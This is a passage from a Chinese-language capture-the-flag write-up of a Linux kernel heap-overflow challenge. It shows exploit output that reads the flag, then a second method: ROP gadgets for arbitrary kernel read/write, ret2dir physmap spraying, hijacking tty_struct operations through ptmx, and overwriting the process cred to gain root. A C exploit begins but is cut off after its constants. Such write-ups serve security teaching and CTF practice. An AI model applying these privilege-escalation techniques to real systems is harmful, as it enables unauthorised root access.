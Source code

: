 ```shell
[*] do_tty_hangup addr: 0xffffffffafe0f6b0
[*] vmlinux_base addr: 0xffffffffafa00000
[*] base address:0xafa12000
ls -al | grep flag
-rwxrwxrwx    1 root     root            28 Mar  8 09:26 flag
/ $ cat flag
zer0pts{*****CENSORED*****}
```

## 方法二

### 利用思路

另一种方法是总结参考[1]中作者思路，他找到两个gadget：

```assembly
write_gadget: mov dword ptr [rdx], esi; ret; 
read_gadget: mov rax, qword ptr [rdx + 0x28]; ret; 
```

可以将这两个 gadget 与劫持 `ioctl` 指针结合达到任意地址读写的目的。

具体步骤如下：

- 利用堆溢出漏洞修改 SLAB 堆指针，使得下次分配堆块到一个较低的地址；
- ret2dir，使用physmap spray 使得用户空间地址与内核空间地址映射出现重叠（即两块或者多块虚拟内存映射到同一块物理内存），之后打开 ptmx 设备使得该设备的 `tty_struct` 结构体落入重叠区域；遍历 physmap 找到该设备所在页，此时该页面大概率与用户空间地址重合；
- 之后修改 `ops` 指针到 `memo` 所在内存，并在其中构造 `tty_operations` 结构体；
- 请求 ptmx 创建一个pts；遍历 `init_task` 找到当前进程，通过任意地址读写修改当前进程 `cred` 结构改写uid值为0；
- 读取 flag 文件。

个人认为physmap spray 这个步骤可以省略，直接通过方法一的方式堆溢出修改 `tty_struct` 结构体即可。不过ret2dir 的方法可以不用修改cr4寄存器而绕过 SMEP/SMAP。

### exp

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <assert.h>
#include <string.h>
#include <pty.h>
#include <sys/fcntl.h>
#include <sys/mman.h>
#include <sys/ioctl.h>

#define LOG(f_, ...) printf(("[*] " f_), __VA_ARGS__)
#define SPRAY_CNT 32*32*32 // 4K*32*32*32=128M
#define PAGESIZE 0x1000 //4k
#define TASKS_OFFSET 0x388
#define CRED_OFFSET 0x620
#define PID_OFFSET 0x488
void *sprayed_pages[SPRAY_CNT];
char zeropage[PAGESIZE];

int fd;
int slave_fd;
unsigned long kernel_base;
unsigned long r_gadget;
unsigned long w_gadget;
unsigned long init_task;
unsigned long setup_disble_smap;
unsigned long ftable[0x80];

struct skewBuf {
```